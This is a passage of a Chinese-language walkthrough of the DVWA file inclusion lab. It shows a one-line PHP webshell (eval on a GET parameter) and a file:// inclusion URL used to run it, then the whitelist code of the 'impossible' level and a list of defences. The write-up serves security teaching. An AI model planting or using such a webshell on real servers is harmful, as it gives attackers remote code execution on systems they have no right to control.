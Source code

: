 #### 解题思路
利用文件上传漏洞上传Webshell，然后用伪协议来包含。

Webshell代码文件shell.php
```php
<?php
echo phpinfo();
eval($_GET['pass']);
?>
```
构造远程url，http://127.0.0.1/dvwa/vulnerabilities/fi/page=file://绝对路径/shell.php 这里的shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。



## 0x04 Impossible
#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
这是基于白名单的防御，只包含白名单中的文件，一般是无法突破了的。

#### 解题思路
无。



## 0x05 小结

防御方法：
- 如果没有必要就关闭allow_url_fopen与allow_url_include。
- 白名单规定文件名。
- 如果不能白名单那就要设置黑名单过滤（尽可能全）http:// 、..\、../等符号。
- 如果文件包含与文件上传相结合时，还要考虑上传图片文件可能包含代码，应进行文件内容检查，全面防御。



## 0x06 参考

[www.freebuf.com/articles/web/119150.html](www.freebuf.com/articles/web/119150.html)